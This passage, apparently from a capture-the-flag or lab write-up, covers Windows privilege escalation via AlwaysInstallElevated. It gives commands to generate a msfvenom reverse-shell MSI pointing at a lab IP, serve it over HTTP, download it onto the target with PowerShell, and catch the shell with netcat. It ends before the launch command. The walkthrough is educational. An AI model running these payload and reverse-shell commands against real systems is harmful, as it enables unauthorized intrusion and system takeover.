 ![Privesc Check](./pic/vuln.png)
	
We found credentials as well:
	
![Privesc Credentials](./pic/creds.png)
	
that means we can try this exploit about [AlwaysInstallElevated](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/).
The exploit start by crafting the .msi installer on local machine:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.8.79.118 lport=8888 -f msi -o rev.msi
```
once we have the executable we can upload on the remote machine via python server on local machine:
```bash
python3 -m http.server 80
```
remote machine
```powershell
Invoke-WebRequest -Uri htpp://10.8.79.118/rev.msi -OutFile rev.msi
```
Now we need to start the listener:
```bash
nc -lvnp 8888
```
Once we have everything setup we need to launch the exploit on windows machine. the command to launch would be:
```cmd
```